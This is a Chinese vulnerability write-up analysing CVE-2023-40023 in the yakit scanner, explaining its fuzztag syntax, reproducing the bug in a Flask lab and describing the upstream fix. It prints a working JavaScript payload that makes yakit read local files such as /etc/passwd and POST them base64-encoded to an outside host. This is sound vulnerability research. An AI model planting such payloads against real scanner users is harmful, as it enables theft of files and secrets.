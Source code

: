 

# yakit CVE-2023-40023 漏洞分析 - 先知社区

yakit CVE-2023-40023 漏洞分析

- - -

## 漏洞简介

由 Medi0cr1ty 师傅发布在公众号的，通过在页面上嵌入一个 js，这里的 payload 是读取文件，并以 base64 的方式发送出去

```plain
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://yakit.com/filesubmit");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  xhr.send(`file={{base64enc(file(/etc/passwd))}}`);
</script>
```

当 yakit 扫描到恶意网站之后，就会将 yakit 使用者机器上的 /etc/passwd文件base64编码后发送出去

## yakit 的 fuzztag

yakit 关于 fuzz 部分的文档 - [https://yaklang.io/products/Web%20Fuzzer/repeat](https://yaklang.io/products/Web%20Fuzzer/repeat)  
看了一下文档之后觉得这部分是 burpsuite 的 repeat 和 Intruder 模块  
另外序列场景感觉就是对存在时序的操作进行编排，比如说先登录再获取一个数据....

在介绍 CVE-2023-40023 原理之前需要先了解 yakit 里面的模糊测试标签 fuzztag  
fuzztag 是一种小型语法结构，它大概长这个样子：{{tagname(tagvalue)}}，例如{{randint(1,100)}}生成 1-100 随机整数

可用标签列表文档在 - [https://yaklang.io/docs/newforyak/fuzztag/](https://yaklang.io/docs/newforyak/fuzztag/)  
[![](assets/1708581544-2fc45990eaeda0b767516cdf52c912b8.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706695486245-949072a9-9351-4154-a2a3-adcbd04b937b.png#averageHue=%23e1c088&clientId=u8bb67454-1d83-4&from=paste&height=452&id=ud73214e9&originHeight=678&originWidth=1020&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=65372&status=done&style=none&taskId=u5750dd7e-e977-4d7d-aca5-1fbda71b7b3&title=&width=680)

在文章开始的 payload 里面我们就是用到了 base64enc 和 file 标签

-   base64enc 进行 base64 编码，{{base64enc(abc)}} => YWJj
-   file 读取文件内容，可以支持多个文件，用竖线分割，{{file(/tmp/1.txt)}} 或 {{file(/tmp/1.txt|/tmp/test.txt)}}

## 漏洞复现

### yakit 漏洞环境搭建

yakit 客户端目录在

> C:\\Users\\用户\\AppData\\Local\\Programs\\yakit

引擎目录在

> C:\\Users\\用户\\yakit-projects

在 yak-engine 目录下可以看到引擎 exe  
[![](assets/1708581544-5005b385466b764d9e44c6b84395f3ad.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337217088-42d83b98-68ed-4b8c-870a-71607b1b4a76.png#averageHue=%23fbf9f9&clientId=uaea00f63-5946-4&from=paste&height=277&id=ub56a008a&originHeight=415&originWidth=887&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=29954&status=done&style=none&taskId=uee2ab08a-8e43-4938-aa5e-9a4319533a1&title=&width=591.3333333333334)  
我现在的是 v1.3.0-sp6  
[![](assets/1708581544-553f9eba5ab611915cd6c31abd9c102c.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708337244741-c8aee22a-f8f5-48ee-8a06-7b140f14034d.png#averageHue=%23fcf7f5&clientId=uaea00f63-5946-4&from=paste&height=543&id=u7cf2db17&originHeight=814&originWidth=794&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=114687&status=done&style=none&taskId=ue40a8187-e925-4716-b55e-41f5a0624ea&title=&width=529.3333333333334)  
根据漏洞报告 回退到存在漏洞的版本 v1.2.4  
[![](assets/1708581544-d055a7a44dc42cb154572d3e3ba84f6e.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350622340-933edf54-4726-47ea-ac2f-06dd0ad36d17.png#averageHue=%23fdf9f9&clientId=u3639901f-4e03-4&from=paste&height=485&id=u3ee8e296&originHeight=727&originWidth=1385&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=105329&status=done&style=none&taskId=u3a02c8a1-df31-4dac-8adf-0d270f8896e&title=&width=923.3333333333334)  
[![](assets/1708581544-203469f5161d187bd0cf6395df04cef2.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350709682-5348a559-3c3d-4331-9b2c-19acaf61bcbb.png#averageHue=%23fefefe&clientId=u3639901f-4e03-4&from=paste&height=389&id=u30275dd6&originHeight=584&originWidth=1760&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=71130&status=done&style=none&taskId=ue28443d6-ab32-4dbc-9c87-11c97b85db9&title=&width=1173.3333333333333)  
下载之后替换本地的 exe  
[![](assets/1708581544-7a71ff2caf1fdebcbc796ec75ab08ffc.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708350942528-4d6a6db5-7de3-4710-8707-f45b23c30ee3.png#averageHue=%23fdf8f5&clientId=u3639901f-4e03-4&from=paste&height=511&id=u372113f1&originHeight=767&originWidth=596&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=74576&status=done&style=none&taskId=u84e40f12-ac5e-47c5-97fc-eb238884d43&title=&width=397.3333333333333)  
可以看到 yakit 已经回退到漏洞版本了

### 攻击环境搭建

flask 构造恶意的 web 站点

```plain
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        data = request.form.to_dict()
        return data
    else:
        return 'Unsupported request method'

if __name__ == '__main__':
    app.run(debug=True)
```

index.html 内容为

```plain
<!DOCTYPE html>
<html>
<head>
    <title>Attack Page</title>
</head>
<body>
    <h1>Hello, this is a attack page!</h1>
</body>
<script>
  const xhr = new XMLHttpRequest();
  xhr.open("POST", "http://127.0.0.1:5000");
  xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  {% raw %}
  xhr.send(`file={{base64enc(file(C://test))}}`);
  {% endraw %}
</script>
</html>
```

### 读取本地文件

打开 yakit 的 XSS 插件，打开其他的插件也可以，当浏览器发出 POST 请求时会将请求流量镜像给插件，插件中调用了 fuzz 库，导致渲染了请求中的 fuzztag，将本机文件信息携带出去  
[![](assets/1708581544-320863d2e9e3930871806f9301eabaab.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353664519-7316cca5-8ac5-44f7-855a-ac38cae2bb5e.png#averageHue=%23fcf8f6&clientId=u3639901f-4e03-4&from=paste&height=462&id=ua37700a8&originHeight=693&originWidth=1043&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=122199&status=done&style=none&taskId=u7d27c1a5-98d5-412e-ba9c-3946ed361cb&title=&width=695.3333333333334)  
访问我们的恶意网址 [http://127.0.0.1:5000](http://127.0.0.1:5000/)，可以看到已经将 test 文件的内容以 base64 编码的方式读取出来了  
[![](assets/1708581544-a191a99dfb5e062516aa9777410d3651.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353765498-cc2b0fd8-a6c0-4f73-97c1-be48a5fb7aa7.png#averageHue=%23d9b881&clientId=u3639901f-4e03-4&from=paste&height=137&id=uce773362&originHeight=206&originWidth=775&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=16735&status=done&style=none&taskId=u3c443781-9269-4fdd-bdbb-ec6e0921a55&title=&width=516.6666666666666)  
[![](assets/1708581544-ef3cd8a1470233a583eb8cb41b031e00.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708353629407-8f7cc8f6-2aff-4b7a-92dc-4799c7d0a78e.png#averageHue=%23e1e9c4&clientId=u3639901f-4e03-4&from=paste&height=597&id=udf216329&originHeight=895&originWidth=1901&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170768&status=done&style=none&taskId=u0b2329d9-2311-4fce-aa24-458646f24c3&title=&width=1267.3333333333333)

## 原理和修复

如果没有启动插件的话 是无法触发这个安全问题的，因为 yakit 默认不会对经过 MITM PROXY 的流量中的 fuzztag 进行解析，但是经过插件的时候会进行解析  
MITM 流量未解析 fuzztag  
[![](assets/1708581544-a645867385a8ed361862e9a246b1815b.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397180327-6caf8fad-2579-4f36-a750-e233dc88ea17.png#averageHue=%23e6ecca&clientId=u36d7995b-8cb8-4&from=paste&height=537&id=ud5fa8630&originHeight=806&originWidth=1362&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=117013&status=done&style=none&taskId=ua6820eb3-6a9a-4105-884b-7dd23b0c30a&title=&width=908)  
插件解析 fuzztag  
[![](assets/1708581544-1e5737a283b74654702704217aadefa1.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708397202458-6e83b7af-8159-4082-a396-dba6ca56760d.png#averageHue=%23e7edca&clientId=u36d7995b-8cb8-4&from=paste&height=550&id=u618385b1&originHeight=825&originWidth=1363&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=138585&status=done&style=none&taskId=uae832c28-3457-49ee-9fc8-dd5d762c73d&title=&width=908.6666666666666)  
原代码\_httpPool 函数里面会将所有的 fuzztag 进行解析，以 file tag 为例，在 init 的时候会被设置为全局  
[![](assets/1708581544-b6527e1976ecf074c93938fd20711c54.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708411880386-e178458d-b234-418b-8547-3dbd607052d2.png#averageHue=%231e2024&clientId=u36d7995b-8cb8-4&from=paste&height=330&id=uda19f102&originHeight=495&originWidth=1376&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=79875&status=done&style=none&taskId=uc05559fd-f314-4822-9c73-d99e6439364&title=&width=917.3333333333334)  
在这里会对新的请求 fuzztag 进行解析  
[![](assets/1708581544-6e55713c79536f3e39782a98b687a4f8.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1708413521689-f38e2f90-b516-44ef-8e01-7f5c4fe80335.png#averageHue=%231f2125&clientId=u4380aa82-ad0c-4&from=paste&height=327&id=u37257cc5&originHeight=490&originWidth=1019&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=81536&status=done&style=none&taskId=u3f277b32-e6a3-4347-864f-758499f6f6b&title=&width=679.3333333333334)  
所以作者修复这部分的时候，去掉了 QuickMutateWithCallbackEx2 方法，在配置里面添加了 FuzzFileOptions

```plain
func FuzzFileOptions() []FuzzConfigOpt {
    var opt []FuzzConfigOpt
    for _, t := range Filetag() {
        opt = append(opt, Fuzz_WithExtraFuzzTagHandler(t.TagName, t.Handler))
        for _, a := range t.Alias {
            opt = append(opt, Fuzz_WithExtraFuzzTagHandler(a, t.Handler))
        }
    }
    return opt
}
```

通过限制 config.ForceFuzzfile 参数来防止对 file tag 进行解析

```plain
if config.ForceFuzzfile {
    opts = append(opts, FuzzFileOptions()...)
}
```

## 参考连接

-   [https://zhuanlan.zhihu.com/p/664729922](https://zhuanlan.zhihu.com/p/664729922)
-   [https://mp.weixin.qq.com/s?\_\_biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399](https://mp.weixin.qq.com/s?__biz=Mzg5ODE3NTU1OQ==&mid=2247484236&idx=1&sn=ef0c14a89721800b2311d0e487388399)
-   [https://chat.yaklang.com/](https://chat.yaklang.com/)
-   [https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq](https://github.com/yaklang/yaklang/security/advisories/GHSA-xvhg-w6qc-m3qq)
